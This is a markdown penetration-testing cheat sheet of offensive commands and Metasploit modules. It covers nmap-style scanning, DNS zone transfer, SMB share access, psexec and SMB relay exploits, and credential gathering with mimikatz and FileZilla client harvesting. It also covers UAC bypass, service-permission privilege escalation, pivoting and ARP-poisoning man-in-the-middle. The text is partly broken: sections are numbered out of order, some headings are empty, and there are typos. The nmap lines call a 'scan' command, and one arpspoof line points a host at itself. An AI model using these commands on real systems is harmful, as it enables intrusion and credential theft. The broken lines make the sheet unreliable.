 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN      :    Exploiting zone transfer to display all subdomains
    - Exploiting zone transfer to display zone

### 2.SMB Misconfiguration
   #### 2.1 SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2 Metasploit
    exploit/windows/smb/psexec
    exploit/windows/smb/smb_relay
    auxiliary/scanner/smb/smb_login
    auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
    smbclient -L IPTarget
   

### 4.Exploitation


### 3.Post Exploitation

#### 3.0 Infor Gathering
    run winenum
    run arp_scanner –r TargetNetworkSubnet
    run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

    getsystem
    post/windows/gather/win_privs        : Check if UAC enabled
    exploit/windows/local/bypassuac      : Local exploit to bypass UAC
    
    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
    incognito
    mimikatz

##### 3.1.2 Via Windows Services 
    
    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”
    
    - Using powerUp.ps1 script
    - 
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
    route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
    portfarwarding (meterpreter) ==> portfwd victimeIP -p ServicePort add -L 127.0.0.1 -l LocalPort -r

### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
    arpspoof -i tap0 -t vic1_IP -r vic2_IP
    arpspoof -i tap0 -t vic2_IP -r vic2_IP
